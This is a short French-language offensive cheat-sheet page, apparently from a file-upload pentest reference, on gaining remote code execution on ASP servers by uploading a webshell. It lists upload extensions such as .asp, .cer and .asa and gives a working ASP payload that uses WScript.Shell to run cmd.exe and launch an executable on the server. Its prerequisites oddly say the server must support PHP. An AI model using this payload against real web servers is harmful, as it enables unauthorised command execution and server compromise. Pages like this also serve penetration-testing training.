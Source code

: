 # Active Server Pages

<img src="logo-asp.png" title="" alt="" height="200">

**Facteur de risque** : RCE via webshell

**Extension** : `.asp`, `.aspx`, `.cer`, `.asa`, `.asax`, `.cshtml`, `.vbhtml`

**Description** : 

**Active Server Pages** est une solution Microsoft de langage de script côté serveur, qui fonctionne avec VBScript et JScript.  Elle a été remplacé par **ASP.NET** en 2002.

## Sommaire

- RCE

## RCE

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

- Le serveur supporte le PHP

### Payload

```visual-basic
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)
%>
```

## References

- Web shells in PHP, ASP, JSP, Perl, and ColdFusion : http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Webshells%20In%20PHP,%20ASP,%20JSP,%20Perl,%20And%20ColdFusion.pdf
- [Webshell &#xB7; Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html)

## Todo

- [PayloadsAllTheThings/Upload Insecure Files/Extension ASP at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)

- 
